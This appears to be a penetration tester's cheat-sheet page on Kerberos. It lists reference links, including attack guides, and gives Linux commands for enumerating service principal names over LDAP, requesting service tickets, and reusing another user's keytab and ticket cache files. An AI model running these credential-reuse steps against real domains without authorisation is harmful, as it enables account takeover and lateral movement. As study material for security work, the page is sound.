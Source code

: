 # Kerberos

* [https://www.roguelynn.com/words/explain-like-im-5-kerberos/](https://www.roguelynn.com/words/explain-like-im-5-kerberos/)
* [https://vbscrub.com/2020/05/13/kerberos-protocol-explained/](https://vbscrub.com/2020/05/13/kerberos-protocol-explained/)
* [https://www.tarlogic.com/en/blog/how-kerberos-works/](https://www.tarlogic.com/en/blog/how-kerberos-works/)
* [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
* [https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/](https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/)
* [https://habr.com/ru/company/tomhunter/blog/507140/](https://habr.com/ru/company/tomhunter/blog/507140/)
* [https://habr.com/ru/company/tomhunter/blog/509290/](https://habr.com/ru/company/tomhunter/blog/509290/)
* [https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)




## Synchronize Time

```
$ sudo apt install ntpdate -y
$ sudo ntpdate <DC_IP>
```




## Kerberos on Linux

```
$ env | grep KRB5
```

Request TGT supplying password:

```
$ kinit
$ klist
```

List available SPNs:

```
$ ldapsearch -Y GSSAPI -H ldap://dc1.megacorp.local -D "Administrator@MEGACORP.LOCAL" -W -b "dc=megacorp,dc=local" "servicePrincipalName=*" servicePrincipalName
```

Request TGS for MSSQL service:

```
$ kvno MSSQLSvc/SRV01.megacorp.local:1433
$ klist
```

Re-using keytab files to load and renew a TGT:

```
$ kinit administrator@MEGACORP.LOCAL -k -t /tmp/administrator.keytab
$ klist
$ kinit -R
```

Re-using ccache files:

```
$ sudo chown offsec:offsec /tmp/krb5cc_31337
$ kdestroy
$ export KRB5CCACHE=/tmp/krb5cc_31337
$ klist
```

